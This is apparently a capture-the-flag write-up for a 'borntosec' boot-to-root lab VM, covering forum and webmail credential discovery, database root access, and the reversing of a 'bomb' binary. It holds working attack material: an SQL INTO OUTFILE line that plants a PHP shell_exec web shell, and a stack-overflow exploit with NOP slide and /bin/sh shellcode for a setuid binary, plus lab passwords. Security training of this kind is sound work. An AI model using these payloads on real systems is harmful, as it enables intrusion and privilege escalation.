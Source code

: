 # Laurie entrypoint starting from /forum

Since we have access to /forum we can start gathering info
Some user are:
- admin
- lmezard
- zaz
- thor
- wandre
- qudevide

In a post we find a login and a password that was misstyped by lmezard
The password is `!q\]Ej?*5K5cy*AJ`

With this we can connect to the forum as lmezard, and this let us this her email on her profile
lmezard email is `laurie@borntosec.net`
Her password is the same than her forum password
Now we can connect as laurie on /webmail

She has 2 mail, one containing db root access we can use on /phpmyadmin
`user: root
 pass: Fg-'kKXBj87E:aJ$`
Interesting to note that the sender email is `qudevide@mail.borntosec.net`
and laurie sent the same email to `ft_root@mail.borntosec.net`

Now we have access to the database which gives us some software additional info:
- Server: Localhost via UNIX socket
- Server version: 5.5.44-0ubuntu0.12.04.1
- Protocol version: 10
- User: root@localhost
- MySQL charset: UTF-8 Unicode (utf8)

## Reverse shell
From native SQL QUERY we can create file
The root dir of mysql on the system seems to be /var/lib/mysql/
Except here it looks like we cant create a file anywhere on the system
After a lot of tries everywhere, we discovered we can write inside /forum/templates_c/
To do the reverse shell we can do it in php with the shell_exec command

SELECT '<form method="get"><label><input type="text" name="cmd" value=""></label><button>Exec</button></form><?php if(isset($_GET["cmd"])){ $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; } ?>' INTO OUTFILE "/var/www/forum/templates_c/sh.php"

Then we can execute command logged in as www-var, wich is the apache2 users
Looking around the system, we find a password file in /home/LOOKATME/password
The credentials inside are : `lmezard:G!@M6f4Eatau{sF"`

They are ftp credentials, when connecting to the ftp server there is pcap file,
We have to extract the archive with tar and sort the file inside
We can automate them in a script and recompile the C file or just
`grep -R getme ft_fun -A 3`
`grep -R return ft_fun -A 3` to sort them manually, there is only 12 char we need

getme1() -> file 5/6 = I
getme2() -> file 37/38 = h
getme3() -> file 56/57 = e
getme4() -> file 115/116 = a
getme5() -> file 368/369 = r
getme6() -> file 521/522 = t
getme7() -> file 736/737 = p
getme8() ->  'w'
getme9() ->  'n'
getme10() -> 'a'
getme11() -> 'g'
getme12() -> 'e'

"ft_fun/BJPCP.pcap- printf("%c",getmeX());"
"ft_fun/BJPCP.pcap- printf("Now SHA-256 it and submit");"

final password = Iheartpwnage
SHA-256 version = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Now we're logged in as laurie, we see a 'bomb' software that is a 32bit binary
We can reverse it and solve the 6 steps then concatenate the result and we'll have the password for the thor acc

## The bomb
When looking at the reversed code we see some strange stuff like the secret phase that we can activate on stage 4 by adding 'austinpowers'
But it doesnt seem to do anything meaningful, likewise there is some intriguing function like send_mail but it doesnt look activated at all for now
Back to solving each regular step of the bomb ->

1/ Public speaking is very easy.
2/ 1 2 6 24 120 720
3/ 5 t 458
4/ 9
5/ opekma
6/ 4 2 6 3 1 5

Quick notes on step 3:
Solution is 5 t 458 but there can be other
Like 1b2149

Quick notes on step 4:
The rank for which fibonacci = 55
Its 9

Quick notes on step 5:
Solution is opekma but there can be other
Like opekmq

There is probably 2 way to do this challenge, either crack the logic of the mask which we didnt
Or send the whole alphabet to create a table to find the match to 'giants'
abcdef: srveaw
ghijkl: hobpnu
mnopqr: tfgisr
stuvwx: veawho
yz: bp

Quick notes on step 6:
read6 func so we understand the input has 6 char
The first while check that all input are number < 7
Second and third while sets up the linked list according to some rule we dont need to understand
Fourth while and last part of the code is just a simple step through the linked list
And it checks that each node value is lesser than the previous one
*if (current node < next node)*
   *explode*
*current node = next node*
The answer is `4 2 6 3 1 5`
We can verify this by just sending 123456 to check node value right before the last step in gdb

The final password for thor is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## Turtle

We have a series of instructions, when visualised with a python script (check script repo)
We get a stylised "SLASH"
When we md5 it we get the password for zaz user: `646da671ca01bb5d84dbb5fb2238dc8e`

## Overflow binary

In zaz repo there is a binary that is vulnerable to a stack overflow, through a call to strcpy
The binary doesnt have the nx protection and it isnt enabled via kernel neither
So we can inject a shellcode to exploit the vulnerable program
Quick file info checking with `ls -l ./exploit_me` `file ./exploit_me`
It is a setuid binary from root, so if we manage to spawn a shell properly it will be a root process

The binary take one argument, that's where we place our shellcode. We try to find the address of
strcpy dest (approximately 0xbffff660) to replace the main return address. We add a nop slide before
the shellcode, so we have more odds to get to it:

./exploit_me $(python -c "print '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x60\xf6\xff\xbf' * 21")

`whoami/id` -> root/0
Hooray!!
